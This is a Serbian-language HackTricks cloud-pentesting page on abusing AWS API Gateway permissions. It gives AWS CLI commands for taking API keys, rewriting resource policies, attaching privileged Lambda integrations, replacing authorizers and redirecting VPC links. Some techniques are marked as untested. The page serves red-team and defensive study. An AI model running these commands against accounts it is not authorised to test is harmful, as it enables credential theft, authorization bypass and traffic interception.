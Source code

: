 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Za više informacija proverite:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Sa ovom dozvolom možete generisati API ključeve za API-jeve koji su konfigurisani (po regionu).
```bash
aws --region <region> apigateway create-api-key
```
**Potencijalni Uticaj:** Ne možete privesc ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:GET`

Sa ovom dozvolom možete dobiti generisane API ključeve API-ja koji su konfigurisani (po regionu).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencijalni Uticaj:** Ne možete privesc ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Sa ovim dozvolama moguće je izmeniti politiku resursa API-ja kako biste sebi omogućili pristup pozivanju i zloupotrebi potencijalnog pristupa koji API gateway može imati (kao što je pozivanje ranjivog lambda). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencijalni uticaj:** Obično nećete moći da privesc direktno ovom tehnikom, ali možete dobiti pristup osetljivim informacijama.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolama `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` može **dodati novu integraciju postojećem API Gateway REST API-ju sa Lambda funkcijom koja ima pridruženu IAM ulogu**. Napadač može zatim **pokrenuti Lambda funkciju da izvrši proizvoljan kod i potencijalno dobije pristup resursima povezanim sa IAM ulogom**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Pristup resursima povezanim sa IAM ulogom Lambda funkcije.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolama `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` može **modifikovati postojeći API Gateway autorizator** kako bi zaobišao bezbednosne provere ili izvršio proizvoljan kod kada se izvrše API zahtevi.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencijalni uticaj**: Zaobilaženje bezbednosnih provera, neovlašćen pristup API resursima.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Potrebno testiranje
{% endhint %}

Napadač sa dozvolom `apigateway:UpdateVpcLink` može **modifikovati postojeći VPC Link da upućuje na drugi Network Load Balancer, potencijalno preusmeravajući privatni API saobraćaj na neovlašćene ili zlonamerne resurse**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencijalni uticaj**: Neovlašćen pristup privatnim API resursima, presretanje ili ometanje API saobraćaja.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
